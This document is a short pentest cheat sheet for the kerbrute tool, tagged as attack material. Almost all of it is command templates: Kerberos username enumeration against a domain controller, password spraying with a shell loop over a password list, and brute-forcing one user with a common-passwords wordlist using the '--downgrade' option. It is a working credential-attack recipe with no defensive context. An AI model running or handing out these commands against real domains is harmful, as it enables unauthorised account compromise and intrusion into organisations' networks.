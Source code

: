 # kerbrute
#plateform/linux #target/remote #cat/ATTACK

## Test userlist
```
kerbrute userenum -d <domain> --dc <target> <usersfile|test_users.txt>
```

## Passwords spray passwords list
```
while IFS= read -r password; do kerbrute passwordspray -d <domain> --dc <target> <userslist|valid_users.txt> $password --downgrade; done < <passwordslist|passwords.txt>
```

## Bruteforce user
```
kerbrute bruteuser -d <domain> --dc <target> <wordlist|/usr/share/seclists/Passwords/2020-200_most_used_passwords.txt> <user> --downgrade
```

## Password spray
```
kerbrute bruteuser -d <domain> --dc <target> <usersfile|valid_users.txt> <passwd> --downgrade
```
